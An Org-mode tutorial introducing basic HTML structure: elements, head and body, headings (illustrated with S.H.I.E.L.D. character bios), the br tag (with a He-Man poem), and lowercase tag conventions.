By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src :noweb no
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
